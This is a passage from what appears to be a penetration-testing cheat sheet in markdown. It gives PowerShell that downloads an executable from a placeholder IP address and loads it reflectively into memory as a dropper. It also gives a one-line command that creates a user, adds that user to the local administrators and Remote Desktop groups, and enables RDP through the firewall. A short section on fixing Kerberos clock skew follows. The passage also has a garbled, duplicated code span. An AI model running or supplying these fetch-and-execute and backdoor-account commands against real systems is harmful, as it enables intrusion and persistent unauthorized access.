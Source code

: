 #### Reflective Load C Sharp binary
- Make sure the class is public `public class Program`
- Make sure the void Main is public `public static void Main(string[] args)`public static void Main(string[] args)`

```
$data = (New-Object System.Net.WebClient).DownloadData('http://XX.XX.XX.XX/Payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[<NAMESPACE>.<CLASS>]::Main("".Split())

$data = (New-Object System.Net.WebClient).DownloadData('http://XX.XX.XX.XX/Payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Dropper.Program]::Main("".Split())
```

#### Add user to local admin and RDP group and enable RDP on firewall
```
net user <USERNAME> <PASSWORD> /add /Y  && net localgroup administrators <USERNAME> /add && net localgroup "Remote Desktop Users" <USERNAME> /add && reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

## Troubleshooting
### KRB_AP_ERR_SKEW(Clock skew to great)
#### Disable time sync
- https://askubuntu.com/questions/683067/how-to-stop-automatic-time-update-via-terminal
```
sudo timedatectl set-ntp 0
```

#### Get time
```
sudo net time set -S <DC IP>
```

#### Set time and date manually
- If above fails and only prints the time
```
sudo timedatectl set-time `<YEAR>-<MONTH>-<DATE> xx:xx:xx`
sudo timedatectl set-time `2022-12-28 20:59:33`
```

#### Execute commands

#### Enable time sync again - Restore time to original
```
sudo timedatectl set-ntp 1
```

